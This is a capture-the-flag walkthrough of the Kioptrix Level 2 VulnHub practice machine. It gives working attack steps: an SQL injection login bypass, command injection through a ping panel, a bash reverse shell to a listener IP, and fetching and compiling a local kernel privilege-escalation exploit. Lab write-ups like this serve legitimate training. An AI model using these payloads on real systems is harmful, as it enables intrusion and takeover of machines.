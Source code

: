 # Kioptrix-level-2-Walk-through


### download the machine from  https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

and make sure that you downloaded the fixed version not the bugged one 

then launch using VMware 

no credential are provided 


Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt install exploitdb 

make sure your main system and the target on the same network

and make sure that you downloaded the fixed version not the bugged one 

scan the target using nmap 
--
Nmap -sn 192.168.1.*

got the kioptrix vm ip at 

Nmap -sC -sV 192.168.1.104

found some open ports ( 22-80-111,443)
  
now lets walkthrough each port and see what we can do (separately and combined):
----
couldn't verify that any service is vulnerable so I've move to surf the web server 

well there is a login page , viewing the source code gives me hint to login as admin 

trying basics credential like admin:admin and admin:password  not working 

but a login page is a sign of sqli

so I've tried admin:'

but no errors are displayed

try admin:'or'1'='1 as the simplest method of sqli

and iam in and there is admin panel for pining local host 

a good sign of command injection 

so I've tried ;ls and the command worked 

now we get our shell by listening with our machine and inject this command to the admin panel 

; bash -i >& /dev/tcp/192.168.0.19/443 0>&1

now we've got user shell 

attempting a priv escalation 

1- try sudo -l : failed

2- trying to steel ssh key : failed

3-trying nmap --interactive 

!sh 

failed:D

4- searching for a custom exploit for the exact version of system

uname -a >> CentOs 

searchsploit Centos escilation 

Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PP | linux/local/9545.c

choose this one 

searchsploit -m linux/local/9545.c 

now and since the target has gcc installed we will move the exploit and compile it there

in the same directory as the exploit is run this command 

python -m SimpleHTTPServer 80

now on the shell we obtained earlier from the target , download the exploit 

wget http://192.168.1.2/9545.c

compile 

gcc -o escilation 9545.c

./escilation

id >> root 

Thanks for taking some time reading this i hope it was useful please don't hesitate correcting me any mistake for giving me advise
 ----


